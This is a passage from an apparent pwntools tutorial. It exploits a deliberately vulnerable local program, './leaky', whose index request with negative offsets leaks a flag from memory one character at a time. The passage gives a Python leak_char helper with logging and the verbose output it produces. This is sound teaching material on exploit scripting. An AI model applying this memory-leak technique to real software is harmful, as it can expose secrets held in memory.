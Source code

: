 If we run this script, we leak the flag.

```bash
$ ./demo_pwn.py
[+] Starting local process './leaky': Done
The flag is: SECRETFLAG
[*] Stopped program './leaky'
```

## Logging
---

The previous example was a bit… quiet. Fortunately, pwntools has nicely separated logging capabilities to make things more verbose for debugging and progress-viewing purposes. Let's log each of our steps within the `leak_char` function.

```python
def leak_char(offset):
    # "Give me an index and I'll tell you what's there!\n
    io.recvline()

    # Send offset
    log.info("Sending request for offset: " + str(offset))
    io.sendline(str(offset))

    # Here you go\n
    result = io.recvline()
    log.info("Got back raw response: {}".format(result))

    # Parse the result
    leaked_char = result.split(b'go: ')[1].split(b' ')[1].split(b'\n')[0]
    log.info("Parsed char: {}".format(leaked_char))
    return leaked_char
```

Now the output should be much more verbose:

```
[+] Starting local process './leaky': Done
[*] Sending request for offset: -10
[*] Got back raw response: Okay, here you go: 0xffb14948 S
[*] Parsed char: S
[*] Sending request for offset: -9
[*] Got back raw response: Okay, here you go: 0xffb14949 E
[*] Parsed char: E
[*] Sending request for offset: -8
[*] Got back raw response: Okay, here you go: 0xffb1494a C
[*] Parsed char: C
[*] Sending request for offset: -7
[*] Got back raw response: Okay, here you go: 0xffb1494b R
[*] Parsed char: R
[*] Sending request for offset: -6
[*] Got back raw response: Okay, here you go: 0xffb1494c E
[*] Parsed char: E
[*] Sending request for offset: -5
[*] Got back raw response: Okay, here you go: 0xffb1494d T
[*] Parsed char: T
[*] Sending request for offset: -4
[*] Got back raw response: Okay, here you go: 0xffb1494e F
[*] Parsed char: F
[*] Sending request for offset: -3
[*] Got back raw response: Okay, here you go: 0xffb1494f L
[*] Parsed char: L
[*] Sending request for offset: -2
[*] Got back raw response: Okay, here you go: 0xffb14950 A
[*] Parsed char: A
```